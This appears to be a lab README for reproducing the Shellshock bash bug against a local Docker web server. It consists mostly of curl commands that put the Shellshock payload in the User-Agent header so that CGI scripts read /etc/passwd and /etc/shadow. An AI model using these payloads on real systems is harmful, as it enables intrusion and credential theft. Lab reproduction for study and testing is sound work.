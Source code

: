 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/demo.cgi


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow

